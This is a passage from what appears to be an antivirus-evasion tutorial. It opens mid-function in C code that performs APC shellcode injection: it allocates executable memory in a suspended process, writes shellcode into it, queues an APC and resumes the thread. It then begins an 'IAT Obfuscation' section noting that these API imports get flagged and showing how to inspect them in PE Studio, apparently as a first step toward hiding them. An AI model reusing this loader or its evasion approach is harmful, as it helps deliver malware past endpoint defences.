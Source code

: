 ```bash
    }

    // Allocate memory in the target process
    LPVOID bufferAddr = VirtualAllocEx(pi.hProcess, NULL, shellcodeSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!bufferAddr) {
        printf("VirtualAllocEx failed\n");
        free(shellcode);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
        return -1;
    }

    // Write the shellcode into the allocated memory
    if (!WriteProcessMemory(pi.hProcess, bufferAddr, shellcode, shellcodeSize, NULL)) {
        printf("WriteProcessMemory failed\n");
        free(shellcode);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
        return -1;
    }

    // Queue the APC for the shellcode to be executed
    QueueUserAPC((PAPCFUNC)bufferAddr, pi.hThread, NULL);

    // Resume the suspended thread to execute the shellcode
    ResumeThread(pi.hThread);

    // Cleanup
    free(shellcode);
    CloseHandle(pi.hProcess);
    CloseHandle(pi.hThread);

    return 0;
}


```
## IAT Obfuscation

One thing to note is that using the above WIN32 API directly, such as VirtualAllocEX, QueueUserAPC and etc will be likely flagged as suspicious. We can verify this by checking the Import Address Table by  utilizing a tool called PE Studio

 ![](/assets/AV/PE.png)  